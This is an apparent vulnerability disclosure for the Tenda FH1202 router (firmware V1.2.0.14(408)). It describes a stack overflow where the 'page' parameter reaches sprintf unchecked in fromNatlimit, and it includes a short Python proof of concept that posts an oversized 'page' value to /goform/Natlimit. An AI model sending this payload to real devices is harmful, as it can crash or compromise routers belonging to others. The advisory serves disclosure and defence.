 # Tenda FH1202 fromNatlimit
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromNatlimit function.
### Vulnerability details
In function fromNatlimit line 10, it reads in a user-provided parameter `page`, and the variable is passed to the sprintf function without any length check, which may overflow the stack-based buffer s. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/Natlimit"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/5.png)
